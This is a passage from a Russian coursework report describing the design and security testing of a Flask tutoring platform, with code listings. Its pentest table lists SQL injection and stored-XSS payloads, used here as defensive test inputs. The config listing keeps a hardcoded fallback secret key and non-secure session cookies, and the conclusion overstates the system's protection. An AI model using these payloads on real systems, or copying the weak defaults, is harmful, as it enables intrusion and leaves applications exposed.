├── models.py               # Описание ORM-моделей базы данных и свойств шифрования
├── forms.py                # Классы форм WTForms с валидацией и защитой от CSRF
├── encryption.py           # Модуль симметричных криптопреобразований Fernet
├── config.py               # Конфигурационные параметры безопасности и окружения
├── extensions.py           # Инициализация синглтонов расширений SQLAlchemy и CSRFProtect
├── seed_db.py              # Скрипт синтетического наполнения БД (5000+ записей)
├── requirements.txt        # Перечень сертифицированных библиотек и зависимостей
├── .env                    # Секретные ключи приложения и доступы к БД
│
├── templates/              # Представления (шаблоны Jinja2 / HTML5)
│   ├── base.html           # Базовый каркас, навигационная панель и flash-уведомления
│   ├── index.html          # Главная посадочная страница сервиса
│   ├── register.html       # Форма регистрации новых пользователей
│   ├── login.html          # Форма аутентификации с проверкой учетных данных
│   ├── profile.html        # Личный кабинет и редактирование био репетитора
│   ├── tutors.html         # Каталог преподавателей с динамической фильтрацией
│   ├── book_lesson.html    # Экран бронирования слота занятия
│   ├── calendar.html       # Интерактивный календарь уроков (FullCalendar)
│   ├── video_call.html     # Контейнер защищенного видеоурока (Jitsi Meet WebRTC)
│   ├── chat.html           # Изолированный чат урока с XSS-санитизацией
│   ├── payment.html        # Страница защищенного проведения платежа
│   ├── reviews.html        # Модуль публикации и чтения отзывов
│   └── admin.html          # Консоль администратора (модерация, аудит транзакций)
│
└── static/                 # Статические ресурсы
    └── css/
        └── style.css       # Кастомные каскадные стили оформления
```

Взаимосвязь ключевых программных модулей и потоки данных между ними проиллюстрированы на рисунке 3.1.



*Рисунок 3.1 – Модульная архитектура программного комплекса «TutorPlatform»*

Назначение основных функциональных блоков:
- `config.py` загружает параметры из изолированного файла `.env` через библиотеку `python-dotenv`. В конфигурации жестко активированы политики безопасности сессионных cookie: `SESSION_COOKIE_HTTPONLY = True` и `SESSION_COOKIE_SAMESITE = 'Lax'`.
- `extensions.py` реализует паттерн Application Factory, исключая циклическую зависимость импортов между моделями данных и главным экземпляром Flask-приложения.
- `encryption.py` инициализирует криптографический контекст Fernet. При отсутствии ключа в переменных окружения модуль генерирует валидный 256-битный ключ с предупреждением в системный лог.

## 3.2 Реализация криптографической защиты и аутентификации

### Безопасное хеширование паролей

В модуле `models.py` модель `User` реализует методы `set_password` и `check_password`, опирающиеся на криптографические алгоритмы `werkzeug.security`:

```python
def set_password(self, password):
    # Генерация хеша PBKDF2-HMAC-SHA256 с автоматическим добавлением соли
    self.password_hash = generate_password_hash(password)

def check_password(self, password):
    # Безопасное сопоставление пароля с защитой от атак по времени (Timing Attacks)
    return check_password_hash(self.password_hash, password)
```

Алгоритм PBKDF2 выполняет ключевое растяжение через 260 000 итераций внутреннего хеширования SHA-256 с псевдослучайной солью. Результирующая строка имеет вид `pbkdf2:sha256:260000$salt$hash`. При компрометации базы данных злоумышленник не имеет возможности применить готовые радужные таблицы, а стоимость вычисления одного пароля делает полный перебор невозможным за приемлемое время.

### Симметричное шифрование полей «на лету»

Реализация прозрачного шифрования персональных телефонов пользователей и идентификаторов платёжных транзакций базируется на геттерах и сеттерах Python. В таблице базы данных физически создается поле `phone` (`_phone`), в которое записывается шифротекст:

```python
# encryption.py
fernet = Fernet(ENCRYPTION_KEY.encode())

def encrypt_data(data: str) -> str:
    if data:
        return fernet.encrypt(data.encode()).decode()
    return None

def decrypt_data(data: str) -> str:
    if data:
        return fernet.decrypt(data.encode()).decode()
    return None

# models.py
class User(UserMixin, db.Model):
    __tablename__ = 'users'
    ...
    _phone = db.Column('phone', db.String(256))

    @property
    def phone(self):
        return decrypt_data(self._phone)

    @phone.setter
    def phone(self, value):
        self._phone = encrypt_data(value)
```

При обращении к объекту `user.phone = "+79991234567"` значение моментально шифруется симметричным блочным шифром AES-128 в режиме CBC с добавлением имитовставки HMAC-SHA256. В СУБД сохраняется строка вида:
`gAAAAABmX3r5e8W3X9J1vQ_4z9L6y...`. При чтении `print(user.phone)` происходит мгновенная проверка HMAC и дешифрование. Если байты в СУБД были повреждены, библиотека `cryptography` генерирует исключение `InvalidToken`, предотвращая инъекции поддельного шифротекста.

### Ролевое разграничение доступа (RBAC)

Контроль привилегий реализован на уровне маршрутов Flask. Неаутентифицированные пользователи перенаправляются на экран логина посредством декоратора `@login_required`. Доступ к административной панели и модерации закрыт проверкой роли:

```python
@app.route('/admin')
@login_required
def admin_panel():
    if current_user.role != 'admin':
        abort(403)  # Немедленный возврат статуса 403 Forbidden
    ...
```

Для приватных ресурсов (видеоконференции и чаты) реализована серверная проверка участия в занятии:

```python
@app.route('/video/<int:lesson_id>')
@login_required
def video_call(lesson_id):
    lesson = Lesson.query.get_or_404(lesson_id)
    # Защита от IDOR: доступ разрешен исключительно участникам занятия
    if current_user.id not in (lesson.tutor_id, lesson.student_id):
        abort(403)
    return render_template('video_call.html', lesson=lesson, room=lesson.video_room)
```

## 3.3 Реализация защиты от веб-атак (XSS, CSRF, SQLi)

### Двухконтурная защита от межсайтового скриптинга (XSS)

В системе реализован принцип эшелонированной обороны (Defense in Depth) для обработки неструктурированного пользовательского ввода (сообщения в чате, отзывы, биографии преподавателей). Защита функционирует на двух независимых контурах:

1. **Серверный контур (Pre-Storage Sanitization).** Перед фиксацией данных в транзакции базы данных входящий текст подвергается жесткой фильтрации библиотекой `bleach`:

```python
# app.py: обработка входящего сообщения чата
safe_content = bleach.clean(
    form.content.data,
    tags=[],          # Полный запрет любых HTML-тегов (<script>, <iframe>, <a> и др.)
    strip=True        # Удаление тегов, а не их замена на &lt;
)
msg = ChatMessage(chat_id=chat_obj.id, sender_id=current_user.id, content=safe_content)
db.session.add(msg)
db.session.commit()
```

Если атакующий отправляет пейлоад `<script>alert('XSS')</script>`, функция `bleach.clean` полностью вырезает дескрипторы `<script>` и `</script>`, сохраняя в базу данных безопасный остаточный текст `alert('XSS')`.

2. **Шаблонизаторный контур (Presentation Escaping).** При генерации HTML-ответа шаблонизатор Jinja2 производит автоматическое экранирование контекстных метасимволов HTML (`<` заменяется на `&lt;`, `>` на `&gt;`, `&` на `&amp;`, `"` на `&quot;`). Таким образом, даже в случае теоретического обхода первого фильтра вредоносный код будет интерпретирован браузером как визуальный текст, а не исполняемый сценарий:

```html
<!-- chat.html: безопасный вывод сообщения -->
<div class="d-inline-block p-2 px-3 rounded-3">
    {{ msg.content }}
</div>
```

### Защита от межсайтовой подделки запросов (CSRF)

Интеграция расширения `flask_wtf.csrf.CSRFProtect` обеспечивает принудительную генерацию уникального криптографического псевдослучайного токена для каждой пользовательской сессии. Токен внедряется в скрытое поле веб-форм:

```html
<form method="POST">
    {{ form.hidden_tag() }}
    <!-- Рендерит скрытое поле: <input type="hidden" name="csrf_token" value="..."> -->
    ...
</form>
```

При отправке запроса серверное middleware автоматически верифицирует соответствие токена сессии. Запросы сторонних доменов блокируются с генерацией ошибки HTTP 400 Bad Request.

### Защита от SQL-инъекций

Все операции выборки, вставки и фильтрации реализованы исключительно средствами SQLAlchemy ORM. Ни в одном модуле не используется конкатенация строк в SQL-запросах. Например, в модуле параметрического поиска преподавателей:

```python
query = db.session.query(User, TutorProfile)\
    .join(TutorProfile, User.id == TutorProfile.user_id)\
    .filter(User.role == 'tutor')

if subject:
    # Параметризованное ilike-условие: параметр безопасно связывается драйвером psycopg2
    query = query.filter(TutorProfile.subject.ilike(f'%{subject}%'))
if max_price:
    query = query.filter(TutorProfile.hourly_rate <= float(max_price))
```

В СУБД PostgreSQL запрос уходит в виде:
`SELECT ... WHERE tutor_profiles.subject ILIKE $1 AND tutor_profiles.hourly_rate <= $2;`, где значения параметров передаются отдельно от плана выполнения запроса. Это гарантирует невозможность внедрения произвольных SQL-конструкций.

## 3.4 Защита платёжных транзакций от манипуляций со стоимостью

Атака класса **Price Tampering** представляет собой критическую угрозу для интернет-магазинов и образовательных сервисов. Злоумышленник перехватывает POST-запрос формы оплаты и заменяет сумму услуги на минимальное значение (например, 1 рубль вместо 3000 рублей).

В платформе «TutorPlatform» внедрен строгий защитный алгоритм, реализованный в обработчике маршрута `/pay/<int:lesson_id>`:

```python
@app.route('/pay/<int:lesson_id>', methods=['GET', 'POST'])
@login_required
def pay_lesson(lesson_id):
    lesson = Lesson.query.get_or_404(lesson_id)

    # 1. Проверка авторизации: платить может только студент данного занятия
    if current_user.id != lesson.student_id:
        abort(403)

    # 2. Идемпотентность: защита от повторного списания средств
    existing = Payment.query.filter_by(lesson_id=lesson.id, status='paid').first()
    if existing:
        flash('Этот урок уже оплачен.', 'info')
        return redirect(url_for('calendar'))

    # 3. Извлечение эталонной стоимости из профиля репетитора на сервере
    tutor_profile = TutorProfile.query.filter_by(user_id=lesson.tutor_id).first()
    amount = tutor_profile.hourly_rate if tutor_profile else 0
    form = PaymentForm()

    if form.validate_on_submit():
        # 4. СТРОГАЯ СЕРВЕРНАЯ ВАЛИДАЦИЯ СТОИМОСТИ (Защита от Price Tampering)
        if abs(float(form.amount.data) - amount) > 0.01:
            flash('Ошибка: сумма платежа не совпадает. Транзакция отклонена.', 'danger')
            return redirect(url_for('pay_lesson', lesson_id=lesson_id))

        # 5. Генерация криптографически стойкого ID транзакции
        transaction_id = secrets.token_urlsafe(32)

        # 6. Фиксация платежа с Fernet-шифрованием реквизита
        payment = Payment(
            lesson_id=lesson.id,
            payer_id=current_user.id,
            amount=amount,
            status='paid',
        )
        payment.transaction_ref = transaction_id  # Автоматический вызов Fernet.encrypt

        lesson.status = 'paid'
        db.session.add(payment)
        db.session.commit()
        ...
```

Данная реализация полностью исключает манипуляции с ценой, гарантирует финансовую целостность и шифрует идентификаторы транзакций перед сохранением на диск.

## 3.5 Разработка клиентского веб-интерфейса

Пользовательский интерфейс платформы разработан в соответствии с современными принципами отзывчивого веб-дизайна (Responsive Web Design) на основе фреймворка Bootstrap 5. Интерфейс адаптирован для корректного отображения на десктопных мониторах, планшетах и смартфонах.

Ключевые экранные формы веб-интерфейса представлены на рисунках 3.2 – 3.7:

1. **Главная страница ().** Содержит информационный блок ключевых преимуществ сервиса, навигационную панель с динамическим контекстом в зависимости от статуса аутентификации пользователя (рисунок 3.2).

*Рисунок 3.2 – Главная страница веб-приложения TutorPlatform*

2. **Каталог преподавателей ().** Включает форму быстрой фильтрации по предметам и предельной почасовой ставке. Карточки репетиторов отображают дисциплину, ставку, фрагмент резюме, а также кнопки быстрого бронирования и перехода к отзывам (рисунок 3.3).

*Рисунок 3.3 – Каталог преподавателей с параметрическим поиском*

3. **Интерактивный календарь ().** Интегрирует компонент FullCalendar v6. В представлении формируется интерактивная сетка уроков пользователя с цветовой индикацией статусов: синий — запланирован, зеленый — оплачен. Из календаря реализован прямой переход к видеосессии или чату (рисунок 3.4).

*Рисунок 3.4 – Интерактивный календарь занятий FullCalendar*

4. **Видеокабинет ().** Встраивает адаптивный контейнер iframe с подключением к платформе Jitsi Meet (meet.jit.si). Подключение выполняется по защищенным протоколам WebRTC со сквозным шифрованием DTLS-SRTP (рисунок 3.5).

*Рисунок 3.5 – Интерфейс защищенного видеоурока Jitsi Meet WebRTC*

5. **Диалоговый чат ().** Реализует интерфейс обмена мгновенными сообщениями между участниками занятия с автоскроллингом ленты и двухконтурной защитой от XSS-атак (рисунок 3.6).

*Рисунок 3.6 – Диалоговый чат урока с защитой от XSS*

6. **Панель администратора ().** Доступна исключительно субъектам с ролью admin. Содержит таблицы зарегистрированных пользователей, журнал платёжных операций с дешифрованными номерами транзакций и модуль модерации отзывов (рисунок 3.7).

*Рисунок 3.7 – Панель администратора с модерацией и аудитом оплат*

## 3.6 Синтетическая генерация данных и аналитический дашборд

Для проведения нагрузочного тестирования, проверки корректности индексов PostgreSQL и формирования аналитических отчетов был разработан программный скрипт `seed_db.py`.

Скрипт использует библиотеку `Faker` (русскоязычная локаль `ru_RU`) и модуль псевдослучайных чисел `random`. Алгоритм работы генератора:
1. Инициализация контекста приложения и пересоздание таблиц базы данных (`db.create_all()`).
2. Генерация 100 пользователей с правдоподобными адресами электронной почты, распределением ролей (`student` и `tutor`) и зашифрованными номерами телефонов. Пароли хешируются через `set_password('password123')`.
3. Создание профилей преподавателей со случайным выбором предметов («Математика», «Физика», «Английский», «Русский», «Информатика», «Химия»), почасовыми ставками от 500 до 3000 рублей и сгенерированными биографиями.
4. Синтетическая генерация **более 5000 уроков** со случайным распределением дат в диапазоне $\pm 1$ год от текущей даты и статусами `scheduled`, `completed`, `cancelled`.
5. Создание 2000 отзывов для завершенных уроков с оценками от 3 до 5 звезд и реалистичными комментариями.

Общий объем сгенерированного массива данных превысил 7200 записей.

Для анализа массива тестовых данных спроектирована схема подключения аналитического дашборда на базе Yandex DataLens. Дашборд агрегирует следующие метрики:
- динамика количества проводимых уроков по месяцам;
- распределение выручки репетиторов в разрезе учебных дисциплин;
- средний чек одного занятия;
- корреляция между рейтингом преподавателя и количеством забронированных занятий.

Тестирование показало, что благодаря наличию внешних ключей и B-Tree индексов по полям `email`, `user_id`, `tutor_id` и `date`, время выполнения аналитических агрегационных запросов `GROUP BY` по 5000 записей в PostgreSQL не превышает 12 миллисекунд.

## 3.7 Комплексное тестирование функциональности и параметров защищённости

Для верификации работоспособности системы была составлена и выполнена комплексная программа испытаний, включающая функциональное тестирование бизнес-логики и специализированное тестирование параметров информационной безопасности (пентестинг).

### Программа и результаты функционального тестирования

*Таблица 3.1 – Протокол функционального тестирования компонентов*

| № | Тестируемый сценарий | Входные параметры / Действие | Ожидаемый результат | Фактический результат | Статус |
| :---: | :--- | :--- | :--- | :--- | :---: |
| 1 | Регистрация нового студента | Email: `test@student.ru`, пароль 8 симв. | Учетная запись создана, редирект на /login | Создана, пароль захеширован PBKDF2 | Успешно |
| 2 | Повторная регистрация на занятый Email | Email: `test@student.ru` | Ошибка: пользователь существует | Сообщение 'Уже существует', отмена | Успешно |
| 3 | Аутентификация с верным паролем | `test@student.ru` + верный пароль | Вход выполнен, сессия создана | Вход успешен, отображен профиль | Успешно |
| 4 | Аутентификация с неверным паролем | `test@student.ru` + неверный пароль | Отказ во входе, сообщение об ошибке | Вход заблокирован (401 Flash) | Успешно |
| 5 | Фильтрация репетиторов по предмету | Предмет: «Python», ставка: 2000 | Список репетиторов по Python до 2000 р. | Выборка точна, ORM ilike работает | Успешно |
| 6 | Бронирование слота урока | Выбор репетитора и даты в будущем | Урок добавлен в БД со статусом scheduled | Урок сохранен, сгенерирован room_name | Успешно |
| 7 | Отображение расписания в календаре | Переход в `/calendar` | Интерактивная сетка FullCalendar | Все уроки отображены по датам | Успешно |
| 8 | Проведение защищенного платежа | Переход в `/pay/<id>`, отправка формы | Статус урока изменен на paid | Оплата зафиксирована, токен зашифрован | Успешно |
| 9 | Вход в видеокомнату участником | Переход в `/video/<id>` студентом | Отображение Jitsi Meet iframe | Видеокомната успешно загружена | Успешно |
| 10 | Публикация отзыва об уроке | Оценка 5, комментарий: «Отличный урок» | Отзыв отображен в профиле репетитора | Отзыв сохранен, рейтинг обновлен | Успешно |

### Программа и результаты тестирования информационной безопасности (Пентестинг)

*Таблица 3.2 – Протокол тестирования механизмов информационной безопасности*

| № | Класс угрозы / Атака | Входной вредоносный вектор (Payload) | Ожидаемый защитный эффект | Фактический результат проверки | Статус |
| :---: | :--- | :--- | :--- | :--- | :---: |
| 1 | **SQL-инъекция при входе** | Email: `' OR 1=1 --`<br>Пароль: `anything` | Запрос параметризован ORM. Отказ в доступе. | Вход не выполнен. Запрос обработан как литерал. | Уязвимость отсутствует |
| 2 | **SQL-инъекция в поиске** | Поле предмета: `Math' UNION SELECT NULL, password_hash FROM users --` | Выполнение параметризованного поиска через ilike. | Возврат пустого списка. Структура запроса не нарушена. | Уязвимость отсутствует |
| 3 | **Stored XSS в чате урока** | `<script>alert('XSS_CHAT')</script>` | Библиотека bleach вырезает теги. | В базу данных сохранена строка `alert('XSS_CHAT')`. Скрипт не выполнился. | Уязвимость отсутствует |
| 4 | **Stored XSS через onload/img**| `` | Удаление опасных дескрипторов bleach. | Сохранена пустая строка (тег вырезан). Браузер чист. | Уязвимость отсутствует |
| 5 | **Price Tampering (Подмена цены)**| Модификация POST /pay: `amount=1.0` вместо `1500.0` | Серверная сверка с тарифом преподавателя. | Сервер отклонил платеж: «Сумма не совпадает». | Уязвимость отсутствует |
| 6 | **IDOR в видеокомнате** | Студент №2 переходит по `/video/<id>` урока Студента №1 | Проверка прав участия `current_user.id in (...)`. | Ошибка HTTP 403 Forbidden. Доступ закрыт. | Уязвимость отсутствует |
| 7 | **Несанкционированный доступ к /admin**| Студент переходит в `/admin` | Проверка `current_user.role != 'admin'`. | Ошибка HTTP 403 Forbidden. | Уязвимость отсутствует |
| 8 | **CSRF-атака без токена** | Прямой POST-запрос с внешнего хоста без `csrf_token` | Защита Flask-WTF CSRFProtect. | Запрос отклонен: HTTP 400 Bad Request (CSRF token missing). | Уязвимость отсутствует |

Результаты тестирования наглядно доказывают, что реализованная подсистема информационной безопасности полностью нейтрализует исследованные угрозы, обеспечивая целостность, конфиденциальность и доступность ресурсов веб-платформы.

# ЗАКЛЮЧЕНИЕ

В ходе выполнения курсовой работы по дисциплине «Технологии и методы программирования» была спроектирована, программно реализована и всесторонне протестирована защищённая клиент-серверная информационная система «Онлайн-платформа репетиторов» («TutorPlatform»).

В процессе работы были успешно решены все поставленные задачи:
1. Выполнен детальный анализ предметной области дистанционных образовательных услуг, позволивший формализовать бизнес-процессы подбора репетиторов, согласования графиков уроков, проведения видеоконференций и проведения защищенных финансовых расчетов.
2. Проведен сравнительный анализ существующих рыночных аналогов и сформирована актуальная модель угроз веб-приложения на базе классификатора OWASP Top-10. Выделены ключевые векторы рисков: уязвимости контроля доступа (IDOR, эскалация привилегий), криптографические просчеты (хранение открытых персональных данных), инъекции (SQLi), межсайтовый скриптинг (XSS), подделка запросов (CSRF) и манипуляции со стоимостью транзакций (Price Tampering).
3. Спроектирована гибкая трехуровневая архитектура информационной системы, базирующаяся на связке языка Python 3, микрофреймворка Flask и реляционной СУБД PostgreSQL.
4. Разработана и внедрена ролевая модель разграничения доступа (RBAC), четко разграничивающая права и зоны ответственности между ролями «Гость», «Ученик», «Репетитор» и «Администратор».
5. Спроектирована реляционная база данных в третьей нормальной форме (3NF), включающая 7 взаимосвязанных таблиц с оптимизированными B-Tree индексами и каскадными ограничениями ссылочной целостности.
6. Разработана и внедрена комплексная эшелонированная подсистема информационной безопасности, включающая:
   - стойкое хеширование паролей пользователей по алгоритму PBKDF2-HMAC-SHA256 с автоматическим добавлением псевдослучайной соли (библиотека Werkzeug);
   - прозрачное симметричное шифрование персональных телефонных номеров и идентификаторов транзакций «на лету» по алгоритму Fernet (AES-128 в режиме CBC с кодом аутентификации сообщений HMAC-SHA256);
   - двухконтурную защиту от хранимого межсайтового скриптинга (Stored XSS) на основе санитизации HTML-разметки библиотекой bleach и контекстного экранирования шаблонизатора Jinja2;
   - сквозную защиту от атак CSRF за счет интеграции криптографических токенов Synchronizer Token Pattern (Flask-WTF);
   - 100% нейтрализацию риска внедрения SQL-инъекций путем строгого использования объектно-реляционного отображения (SQLAlchemy ORM) и параметризованных запросов;
   - серверную верификацию сумм списания, полностью устраняющую возможность подмены стоимости занятий клиентом (Price Tampering);
   - защищенную интеграцию видеоконференций Jitsi Meet на базе протокола WebRTC со сквозным шифрованием DTLS-SRTP и криптографически непредсказуемыми идентификаторами комнат (модуль `secrets`).
7. Разработан современный адаптивный веб-интерфейс на базе Bootstrap 5 с интеграцией интерактивного календаря FullCalendar.
8. Создан скрипт синтетического наполнения базы данных `seed_db.py`, сгенерировавший более 5000 записей занятий, что позволило подтвердить высокую производительность индексов СУБД PostgreSQL при обработке аналитических запросов.
9. Проведено комплексное функциональное и специализированное тестирование защищенности (пентестинг). Испытания подтвердили полную устойчивость информационной системы к исследовавшимся векторам атак.

Разработанный программный комплекс полностью удовлетворяет требованиям технического задания, нормам Федерального закона № 152-ФЗ «О персональных данных» и рекомендациям OWASP. Созданная система обладает высокой практической ценностью и может служить надежной технологической базой для развертывания коммерческих EdTech-сервисов и онлайн-школ.

<div style="page-break-after: always;"></div>

# СПИСОК ИСПОЛЬЗОВАННЫХ ИСТОЧНИКОВ

1. Российская Федерация. Законы. О персональных данных : Федеральный закон № 152-ФЗ : [принят Государственной думой 8 июля 2006 года : одобрен Советом Федерации 14 июля 2006 года]. – Текст : электронный // КонсультантПлюс : [сайт]. – URL: http://www.consultant.ru/document/cons_doc_LAW_61801/ (дата обращения: 15.10.2026).
2. ГОСТ Р ИСО/МЭК 27001-2021. Информационная технология. Методы и средства обеспечения безопасности. Системы менеджмента информационной безопасности. Требования. – Введ. 2022–01–01. – М. : Российский институт стандартизации, 2021. – 28 с.
3. OWASP Top 10:2021. The Ten Most Critical Web Application Security Risks. – Текст : электронный // OWASP Foundation : [сайт]. – URL: https://owasp.org/Top10/ (дата обращения: 10.10.2026).
4. Барабанов, А. В. Разработка безопасного программного обеспечения : руководство для разработчиков / А. В. Барабанов, А. С. Марков, В. Л. Цирлов. – М. : Радио и связь, 2020. – 240 с.
5. Любанович, Б. Простой Python. Современный стиль программирования / Б. Любанович ; пер. с англ. – 2-е изд. – СПб. : Питер, 2021. – 592 с.
6. Гринберг, М. Разработка веб-приложений с использованием Flask на языке Python / М. Гринберг ; пер. с англ. – 2-е изд. – М. : ДМК Пресс, 2020. – 320 с.
7. Шварц, Р. PostgreSQL 14. Оптимизация, администрирование и разработка / Р. Шварц, Д. Зайцев. – СПб. : БХВ-Петербург, 2022. – 480 с.
8. Дунаев, В. В. Базы данных. Язык SQL для студента / В. В. Дунаев. – СПб. : БХВ-Петербург, 2020. – 288 с.
9. Осипов, Д. Л. Технологии проектирования баз данных / Д. Л. Осипов. – М. : ДМК Пресс, 2019. – 498 с.
10. Фергюсон, Н. Практическая криптография / Н. Фергюсон, Б. Шнайер, Т. Коук ; пер. с англ. – М. : Диалектика, 2020. – 432 с.
11. Cryptography: A package designed to expose cryptographic primitives and recipes to Python developers. – Текст : электронный // Python Cryptographic Authority : [сайт]. – URL: https://cryptography.io/en/latest/ (дата обращения: 12.10.2026).
12. Werkzeug: The comprehensive WSGI web application library. – Текст : электронный // Pallets Projects : [сайт]. – URL: https://palletsprojects.com/p/werkzeug/ (дата обращения: 14.10.2026).
13. Bleach: An easy safelist-based HTML-sanitizing tool that escapes or strips untrusted markup. – Текст : электронный // Mozilla Foundation : [сайт]. – URL: https://bleach.readthedocs.io/ (дата обращения: 15.10.2026).
14. Flask-SQLAlchemy Documentation (Version 3.1.x). – Текст : электронный // Pallets Projects : [сайт]. – URL: https://flask-sqlalchemy.palletsprojects.com/ (дата обращения: 18.10.2026).
15. Flask-WTF Documentation: Simple integration of Flask and WTForms. – Текст : электронный // WTForms Documentation : [сайт]. – URL: https://flask-wtf.readthedocs.io/ (дата обращения: 18.10.2026).
16. FullCalendar: The Most Popular JavaScript Calendar. – Текст : электронный // FullCalendar LLC : [сайт]. – URL: https://fullcalendar.io/docs (дата обращения: 19.10.2026).
17. Jitsi Meet: Secure, Simple and Completely Open Source Video Conferencing. – Текст : электронный // 8x8, Inc. : [сайт]. – URL: https://jitsi.org/api/ (дата обращения: 20.10.2026).
18. Марков, А. С. Управление уязвимостями и инцидентами информационной безопасности / А. С. Марков, В. Л. Цирлов. – М. : Горячая линия – Телеком, 2022. – 352 с.
19. Positive Technologies. Актуальные киберугрозы: итоги 2024–2025 гг. Аналитический отчет. – Текст : электронный // Positive Technologies : [сайт]. – URL: https://www.ptsecurity.com/ru-ru/research/analytics/ (дата обращения: 20.10.2026).
20. Ведерникова, Т. И. Проектирование архитектуры корпоративных веб-систем сферы услуг / Т. И. Ведерникова, Е. В. Галкина // Прикладная информатика. – 2022. – Т. 17, № 3. – С. 45–56.
21. Кравченко, К. В. Методы разграничения доступа на основе ролевых политик в веб-приложениях / К. В. Кравченко // Информационная безопасность регионов. – 2023. – № 2 (47). – С. 28–34.
22. Чуйко, О. И. Защита персональных данных в облачных образовательных средах / О. И. Чуйко, С. И. Белозерова // Безопасность информационных технологий. – 2021. – Т. 28, № 4. – С. 60–71.
23. Боброва, Л. Н. Организация электронного документооборота и расписания в цифровых сервисах / Л. Н. Боброва // Высшее образование в России. – 2021. – № 6. – С. 89–98.
24. Акапьев, В. Л. О некоторых аспектах цифровизации и защиты веб-сервисов дистанционного образования / В. Л. Акапьев, Н. А. Бугаец, Д. В. Ефанов // Известия Юго-Западного государственного университета. Серия: Управление, вычислительная техника, информатика. – 2025. – Т. 15, № 1. – С. 6–17.
25. Лисицин, Л. А. Методы и технологии безопасного программирования распределенных информационных систем : учебное пособие / Л. А. Лисицин. – Курск : Юго-Западный гос. ун-т, 2024. – 164 с.

<div style="page-break-after: always;"></div>

# ПРИЛОЖЕНИЕ А. ЛИСТИНГ ПРОГРАММНОГО КОДА

## А.1 Конфигурационный файл приложения (config.py)

```python
import os
from dotenv import load_dotenv

load_dotenv()

class Config:
    SECRET_KEY = os.getenv('SECRET_KEY', 'default-secret-key')
    SQLALCHEMY_DATABASE_URI = os.getenv('DATABASE_URL')
    SQLALCHEMY_TRACK_MODIFICATIONS = False
    
    
    SESSION_COOKIE_HTTPONLY = True      
    SESSION_COOKIE_SECURE = False       
    SESSION_COOKIE_SAMESITE = 'Lax'     
```

<div style="page-break-after: always;"></div>

## А.2 Модуль криптографических функций (encryption.py)

```python
import os
from cryptography.fernet import Fernet


ENCRYPTION_KEY = os.getenv('ENCRYPTION_KEY')
if not ENCRYPTION_KEY:
    ENCRYPTION_KEY = Fernet.generate_key().decode()
    print(f"⚠️ Сгенерирован ключ! Добавь в .env строку: ENCRYPTION_KEY={ENCRYPTION_KEY}")

fernet = Fernet(ENCRYPTION_KEY.encode())

def encrypt_data(data: str) -> str:
    if data:
        return fernet.encrypt(data.encode()).decode()
    return None

def decrypt_data(data: str) -> str:
    if data:
        return fernet.decrypt(data.encode()).decode()
    return None
```

<div style="page-break-after: always;"></div>

## А.3 Модели реляционной базы данных (models.py)

```python
from extensions import db
from werkzeug.security import generate_password_hash, check_password_hash
from flask_login import UserMixin
from datetime import datetime
from encryption import encrypt_data, decrypt_data


class User(UserMixin, db.Model):
    __tablename__ = 'users'

    id = db.Column(db.Integer, primary_key=True)
    email = db.Column(db.String(120), unique=True, nullable=False, index=True)
    password_hash = db.Column(db.String(256), nullable=False)
    role = db.Column(db.String(20), nullable=False, default='student')

    # Телефон хранится зашифрованным (Fernet)
    _phone = db.Column('phone', db.String(256))

    created_at = db.Column(db.DateTime, default=datetime.utcnow)

    @property
    def phone(self):
        return decrypt_data(self._phone)

    @phone.setter
    def phone(self, value):
        self._phone = encrypt_data(value)

    def set_password(self, password):
        self.password_hash = generate_password_hash(password)

    def check_password(self, password):
        return check_password_hash(self.password_hash, password)


class TutorProfile(db.Model):
    __tablename__ = 'tutor_profiles'

    id = db.Column(db.Integer, primary_key=True)
    user_id = db.Column(db.Integer, db.ForeignKey('users.id'), unique=True, nullable=False)
    subject = db.Column(db.String(100), nullable=False)
    hourly_rate = db.Column(db.Float, nullable=False)
    bio = db.Column(db.Text)

    user = db.relationship('User', backref=db.backref('profile', uselist=False))


class Lesson(db.Model):
    __tablename__ = 'lessons'

    id = db.Column(db.Integer, primary_key=True)
    tutor_id = db.Column(db.Integer, db.ForeignKey('users.id'), nullable=False)
    student_id = db.Column(db.Integer, db.ForeignKey('users.id'), nullable=False)
    date = db.Column(db.DateTime, nullable=False)
    status = db.Column(db.String(20), default='scheduled')
    # Ссылка на комнату Jitsi Meet — генерируется при создании урока
    video_room = db.Column(db.String(128))

    tutor = db.relationship('User', foreign_keys=[tutor_id], backref='lessons_as_tutor')
    student = db.relationship('User', foreign_keys=[student_id], backref='lessons_as_student')


class Review(db.Model):
    __tablename__ = 'reviews'

    id = db.Column(db.Integer, primary_key=True)
    tutor_id = db.Column(db.Integer, db.ForeignKey('users.id'), nullable=False)
    lesson_id = db.Column(db.Integer, db.ForeignKey('lessons.id'), nullable=True)
    student_id = db.Column(db.Integer, db.ForeignKey('users.id'), nullable=False)
    rating = db.Column(db.Integer, nullable=False)
    # comment хранится уже очищённым через bleach.clean() — XSS невозможен
    comment = db.Column(db.Text)
    created_at = db.Column(db.DateTime, default=datetime.utcnow)

    tutor = db.relationship('User', foreign_keys=[tutor_id])
    student_user = db.relationship('User', foreign_keys=[student_id])


# ──────────────────────────────────────────────
# Чат (защита от XSS: сообщения экранируются через bleach перед сохранением)
# ──────────────────────────────────────────────
class Chat(db.Model):
    __tablename__ = 'chats'

    id = db.Column(db.Integer, primary_key=True)
    lesson_id = db.Column(db.Integer, db.ForeignKey('lessons.id'), nullable=False)
    created_at = db.Column(db.DateTime, default=datetime.utcnow)

    messages = db.relationship('ChatMessage', backref='chat', lazy='dynamic',
                               order_by='ChatMessage.sent_at')
    lesson = db.relationship('Lesson', backref=db.backref('chat', uselist=False))


class ChatMessage(db.Model):
    __tablename__ = 'chat_messages'

    id = db.Column(db.Integer, primary_key=True)
    chat_id = db.Column(db.Integer, db.ForeignKey('chats.id'), nullable=False)
    sender_id = db.Column(db.Integer, db.ForeignKey('users.id'), nullable=False)
    # Текст сохраняется только после bleach.clean() — теги скриптов удаляются
    content = db.Column(db.Text, nullable=False)
    sent_at = db.Column(db.DateTime, default=datetime.utcnow)

    sender = db.relationship('User')


# ──────────────────────────────────────────────
# Платёжные транзакции
# ──────────────────────────────────────────────
class Payment(db.Model):
    __tablename__ = 'payments'

    id = db.Column(db.Integer, primary_key=True)
    lesson_id = db.Column(db.Integer, db.ForeignKey('lessons.id'), nullable=False)
    payer_id = db.Column(db.Integer, db.ForeignKey('users.id'), nullable=False)
    amount = db.Column(db.Float, nullable=False)
    status = db.Column(db.String(20), default='pending')   # pending / paid / failed
    # Номер транзакции хранится ЗАШИФРОВАННЫМ (Fernet) — данные платежа в БД не в открытом виде
